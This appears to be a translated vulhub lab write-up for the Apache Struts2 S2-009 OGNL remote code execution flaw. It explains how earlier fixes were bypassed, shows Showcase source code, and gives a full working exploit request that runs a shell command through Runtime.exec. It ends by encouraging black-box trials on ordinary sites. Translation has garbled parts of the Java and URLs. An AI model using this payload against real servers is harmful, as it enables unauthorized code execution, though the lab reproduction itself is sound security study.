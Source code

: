 # S2-009 Remote Code Execution Vulnerability

Impact version: 2.1.0 - 2.3.1.1

Vulnerability details: http://struts.apache.org/docs/s2-009.html

## Test environment construction

```
Docker-compose build
Docker-compose up -d
```

## Principle

> Front reading: This vulnerability is again from s2-003, s2-005. To understand the principle of the vulnerability, you need to read the instructions of s2-005: https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

Refer to [Struts2 vulnerability analysis of the Ognl expression feature triggered by a new idea] (https://www.t00ls.net/viewthread.php?tid=21197), the text said that the introduction of ognl method may not only appear in this vulnerability It may also appear in other Java applications.

Struts2's repair method for s2-003 is to prohibit `#`, so s2-005 is bypassed by using the code `\u0023` or `\43`; then Struts2's repair method for s2-005 is forbidden `\` Special symbols that prevent users from submitting backslashes.

However, if a parameter ʻexample` is accepted in the current action, this parameter will enter the OGNL context. So, we can put the OGNL expression in the `example` parameter and then execute it using `/helloword.acton?example=<OGNL statement>&(example)('xxx')=1` The official defense against special characters such as `#`, `\`.

## Exploit Construction

The test environment is a struts2 "feature display" website `Struts Showcase`, the code is a lot, our goal is to find an action that accepts the parameter, the parameter type is string.

First decompress `S2-009.war` (I use binwalk, in fact, direct zip can be), visible source code is in the `WEB-INF/src` directory, I generally look for ajax related code, the general logic comparison of these codes simple.

Find a `WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`:

```java
Public class Example5Action extends ActionSupport {

    Private static final long serialVersionUID = 2111967621952300611L;

    Private String name;
    Private Integer age;


    Public String getName() { return name; }
    Public void setName(String name) { this.name = name; }

    Public Integer getAge() { return age; }
    Public void setAge(Integer age) { this.age = age; }

    @Override
    Public String execute() throws Exception {
        Return SUCCESS;
    }
}
```

The code is not simpler. It accepts the name parameter and calls setName to assign it to the private property `this.name`, which is in line with our requirements. Then go to `WEB-INF/src/java/struts-ajax.xml` to see the URL routing:

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

`name=example5`, so access the controller by visiting `http://your-ip:8080/ajax/example5.action`. According to the method mentioned in the principle, put the OGNL exploit code in the name parameter and access the URL:

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]% 3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z [%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

Since the POC is not echoed, the `touch /tmp/success` command is called, and the /tmp directory is found to have succeeded:

![](1.png)

In the case of a black box, this hole is not particularly limited. As long as you find the place to pass the parameters in the normal business, you can try this parameter name.